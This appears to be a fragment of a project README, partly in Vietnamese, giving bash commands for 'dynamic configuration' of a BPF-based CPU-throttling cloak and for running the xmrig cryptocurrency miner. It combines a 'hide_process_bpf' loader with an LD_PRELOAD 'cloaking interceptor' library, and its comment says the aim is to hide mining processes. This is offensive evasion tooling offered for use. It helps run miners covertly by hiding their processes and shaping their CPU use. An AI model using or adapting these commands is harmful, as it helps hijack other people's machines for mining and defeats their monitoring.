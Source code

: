 ### **Dynamic Configuration**
```bash
# Runtime cloaking configuration changes
echo "target_temp=45000" > /sys/fs/bpf/cpu_throttle/config
echo "strategy=adaptive" > /sys/fs/bpf/cpu_throttle/config
```

### **Integration với Hide Process**
```bash
# Kết hợp với hide_process_bpf để ẩn mining processes
sudo ./hide_process_bpf/output/hide_process_loader --pin-maps &
LD_PRELOAD=./obj/libcloaking_interceptor.so xmrig
``` 